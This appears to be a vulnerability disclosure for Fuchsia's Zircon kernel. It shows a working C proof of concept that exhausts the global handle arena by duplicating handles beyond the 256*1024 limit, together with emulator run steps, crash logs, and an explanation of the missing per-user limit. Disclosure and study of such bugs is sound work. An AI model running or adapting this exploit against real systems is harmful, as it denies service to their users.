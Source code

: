 # Dos on Fuchsia

Reproducing may take you only 1 min.

## Set-up


Replace "/examples/fortune/fortune.c" with the following code.

// Get a handle by calling  zx_vmo_create, then call zx_handle_duplicate to duplicate the handle. 

// Here I try to duplicate 300\*1024 handles, while the max number of handles is initialized as 256\*1024 in _arena.Init().

```c
	#include <stdio.h>
	#include  <zircon/syscalls.h>
	#define  max_num  300*1024
	zx_handle_t  res_handle[max_num];
	int  main() {
		zx_handle_t  handle1;
		zx_status_t  sys_ret;
		sys_ret = zx_vmo_create(10,0,&handle1);
		if(sys_ret==ZX_ERR_INVALID_ARGS)
		{
			printf("wrong with zx_vmo_create");
		}
		else  if(sys_ret == ZX_ERR_NO_MEMORY)
		{
			printf("wrong no mem");
		}
		else
		{
			printf("syscall success");
		}
		int  i=0;
		while (i < max_num)
		{
			sys_ret = zx_handle_duplicate(handle1,ZX_RIGHT_SAME_RIGHTS,&res_handle[i]);
			if(sys_ret==ZX_ERR_NO_MEMORY)
			{
			// printf("Ddddddddos");
			}
			i++;
		}
		while (1)
		{}
		return  0;
	}
```

   Call printf(...) when handle could not be created.
   
   /zircon/kernel/lib/fbl/include/fbl/gparena.h
   
```c
    void* Alloc(){
	...

		do{
			...
			if(...){
				if(...){
					printf("DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!"); // here!!!
					return nullptr;
				}
			}
		}while (!top_.compare_exchange_strong(top, next_top, ktl::memory_order_relaxed,
					ktl::memory_order_relaxed));
		count_.fetch_add(1, ktl::memory_order_relaxed);
		return  reinterpret_cast<void*>(top);
	}
```

## Run

Open 3 terminals. 

Terminal 1

    $ fx set workstation.qemu-x64 --ccache --with //example/fortune
    $ fx build
    $ fx vdl start -N -u FUCHSIA_ROOT/scripts/start-unsecure-internet.sh

Terminal 2

    $ fx serve-updates

Terminal 3

    $ fx log

Terminal 1
```
$ fortune
```


## Result
Warnning in Terminal 3, then the FEMU crash.

Terminal 3
```
[00016.023134][57943][57945][klog] WARNING: WARNING: High handle count: 229377 / 229376 handles
[00016.029523][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029527][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029532][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029535][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029536][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029538][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029575][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
```
You can see that now the number of exsiting handles is 256\*1024 = 262144, or the max number of handles.

Terminal 1
```

$ ssh: Could not resolve hostname : Temporary failure in name resolution
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host

```

## Details
Zircon Handles allows user space programs to reference kernel objects.

Sharable Resource: Zircon maintains a global struct call [HandleTableArena gHandleTableArena](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/handle.cc;l=76) for allocating all Handles.

Limit: The arena has a limit for all live handles, specified by [kMaxHandleCount](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/handle.cc;l=18), whose value is 256 * 1024. gHandleTableArena contains a member of [fbl::GPArena<Handle::PreserveSize, sizeof(Handle)> arena_](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/include/object/handle.h;l=154), whose [Init](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/lib/fbl/include/fbl/gparena.h;l=42) allocates [kMaxHandleCount * handle_size](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/handle.cc;l=78) memory. If the number of live handles goes beyond the limit, Alloc will return [nullptr](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/lib/fbl/include/fbl/gparena.h;l=121).

The attacker can consume handles to exhaust all handles in gHandleTableArena. 1) Handles are frequently-used in Zircon. Any events, processes, or threads are consuming new handles. 2) Currently we did not find any per-user limits on handles. 3) If handles are exhausted, the users cannot send events or creates any processes or threads.

Count: GPArena maintains a count_, which increments in [Alloc](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/lib/fbl/include/fbl/gparena.h;l=126).

